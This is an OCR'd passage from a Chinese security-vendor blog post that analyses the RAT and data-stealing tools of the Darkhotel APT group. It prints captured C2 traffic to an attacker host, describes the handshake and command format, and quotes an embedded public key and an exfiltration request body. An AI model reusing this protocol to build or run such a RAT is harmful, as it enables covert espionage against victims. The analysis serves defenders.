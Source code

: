 GET/maro7/article//000c29014444/article_service.html HTTP/1.1   
Connection:Keep-Alive   
User-Agent: user   
Host: bigfile-download.net  

步骤2，RAT向C&C发送握手信息。方法为POST，URL为/maro[数字]live[数字].php，内容为titl $\varepsilon$ 111&dirname=[MAC地址的base64编码]  

步骤3，之后接收并解析C2下发的命令，命令格式如下：  

??[命令]##[参数1]&&[参数2]%%[参数3]@@  

指令种类如下：  

步骤四，命令执行完成后，使用与同样方法再次向C2发送握手信息。  

在捕获到的变种中，在执行完原版的通信步骤之外，样本会继续向C2发送消息。其格式与步骤2、4类似，在'tile'与'dirname'的字段基础上，新增加了"value'字段；该字段使用统一的公钥加密。  

# APTGroup系列——Darkhotel之窃密与RAT篇－绿盟科技技术博客  

I db '-----BEGIN PUBLIC KEY-----MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQC' ；DATAXREF:Sub_403AD0+2D↑o ；Sub_403AD0+6B↑o... db‘wvut0Yfj6kSVFbsCSkTSAxZ1IAvZvKZP0XktKr8wJ0m915hK5JLvAhUuoPQvgx86K' db'xnUw9PvnvgRA5zHPnANd+T/zQww6TBNTWh+ZEhD4+S3207yErGn+uEvHgE40o9rTw' db 'JS81bv74Pc7iPAzFLyndmDS1R2HMWZcuDvq00+aqQIDAQAB-----END PUBLIC KE' db'Y-..--  

date=407B7D7E454304697B684B5547653B23035F472B622E08&dirname=MDAIwQzI5MDE0NDQ0&va1ue=B0112E17BBF48D4149ECD09E77747B79EA6E8D5D5D3954FAF72DCCC605E39980E5D3918EFE3C48A39757635FC7EAA037351E5D7AF44CFFA1B7EB082B5530C21E676D9FDF90DC6B6E977B99B90D5068D77B9D43387DC52662A2667EDA26320744D7B27BA7CD369816126D0DCCE41D64CA15174F99DE663CA20DDF4BF0ACB3C903HTTP/1.1200OK  

# 七、总结  

Darkhotel的窃密组件与RAT工具经过攻击链层层下载和释放得到，手法已经非常成熟老练。某些工具对操作系统版本或用户名有着特殊要求，有着明显的定向性。这些工具不断在通信、加密、行为上不断迭代更新，几乎每一年都会出现新版本或完全迥异的版本，反映出Darkhotel在满足自身需求和提升组织识别难度方面一直在不断地挥力，对安全从业人员提出了新的要求。  

<Previous  